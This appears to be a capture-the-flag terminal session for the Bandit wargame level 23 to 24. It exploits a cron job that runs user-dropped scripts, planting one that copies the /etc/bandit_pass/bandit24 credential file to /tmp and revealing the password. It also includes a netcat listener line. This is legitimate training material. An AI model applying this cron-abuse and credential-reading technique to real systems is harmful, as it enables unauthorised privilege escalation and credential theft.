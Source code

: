 bandit23@bandit:~$ ls -la /etc/cron.d/cronjob_bandit24
-rw-r--r-- 1 root root 120 Apr 10 14:23 /etc/cron.d/cronjob_bandit24

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done


nc -nvlp 1234

bandit23@bandit:~$ touch /tmp/terawashere
bandit23@bandit:~$ chmod 666 /tmp/terawashere

cat > /var/spool/bandit24/foo/getpass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/terawashere

chmod 777 /var/spool/bandit24/foo/getpass.sh

bandit23@bandit:~$ cat /tmp/terawashere
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
